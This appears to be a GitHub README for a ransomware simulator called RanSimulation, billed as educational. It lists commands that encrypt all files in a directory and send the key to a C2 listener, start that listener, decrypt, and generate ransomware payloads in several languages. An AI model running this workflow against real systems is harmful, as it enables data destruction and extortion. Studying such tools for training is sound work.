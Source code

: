 # RanSimulation

This project simulates a ransomware scenario for educational purposes. It includes file encryption, decryption, payload generation, and communication with a Command and Control (C2) server (In development).


## **Setup**

1. Clone the repository:
   ```bash
   git clone https://github.com/CyberSecurityUP/RanSimulation.git
   cd RansomwareSimulator
   ```

2. Install required dependencies:
   ```bash
   pip install cryptography
   ```

3. Ensure Python 3.8+ is installed on your system.

---

## **Usage**

### **1. Encrypt Files**
Encrypt all files in the current directory and send the encryption key to the specified C2 server:
```bash
python3 main.py --encrypt --ip <C2_IP> --port <C2_PORT>
```

Example:
```bash
python3 main.py --encrypt --ip 127.0.0.1 --port 4444
```

### **2. Decrypt Files**
Decrypt all files in the current directory using the provided encryption key:
```bash
python3 main.py --decrypt --key <ENCRYPTION_KEY>
```

Example:
```bash
python3 main.py --decrypt --key "YOUR_ENCRYPTION_KEY"
```

### **3. Start a C2 Listener**
Start a C2 listener to receive encryption keys from clients:
```bash
python3 main.py --listen --ip <LISTEN_IP> --port <LISTEN_PORT>
```

Example:
```bash
python3 main.py --listen --ip 0.0.0.0 --port 4444
```

### **4. Generate Payloads**
Generate a ransomware payload in Python, PowerShell, or C++:
```bash
python3 main.py --generate <LANGUAGE> --ip <C2_IP> --port <C2_PORT>
```

Example:
```bash
python3 main.py --generate python --ip 127.0.0.1 --port 4444
```

Supported languages:
- `python`
- `powershell`
- `c++`

---

